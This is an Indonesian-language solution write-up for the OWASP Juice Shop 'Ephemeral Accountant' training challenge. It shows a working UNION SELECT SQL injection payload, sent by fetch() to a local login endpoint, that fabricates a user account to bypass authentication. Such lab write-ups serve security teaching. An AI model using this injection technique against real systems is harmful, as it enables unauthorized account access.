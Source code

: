 ## Penyelesaian Tantangan: Ephemeral Accountant

### Deskripsi Tantangan
Tantangan ini menuntut saya untuk masuk sebagai pengguna yang tidak ada (`acc0unt4nt@juice-sh.op`) tanpa mendaftarkannya terlebih dahulu. Pengguna ini harus "diciptakan" secara sementara hanya selama proses login.

### Strategi dan Eksekusi Serangan

#### Analisis Fungsionalitas
Saya mengidentifikasi adanya endpoint `POST /rest/user/login` sebagai target utama.

#### Eksekusi Serangan
dengan `control + shift + i` agar dapat masuk ke console inspect.

Kode yang berhasil:

```javascript
fetch('http://127.0.0.1:3000/rest/user/login', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
        "password": "test1234"
    })
});
```

### Analisis Hasil
Serangan SQL Injection ini berhasil

### Bukti 
<img width="1920" height="1080" alt="Screenshot (588)" src="https://github.com/user-attachments/assets/71278b75-f2d9-4476-9daf-763abd0ba2fa" />
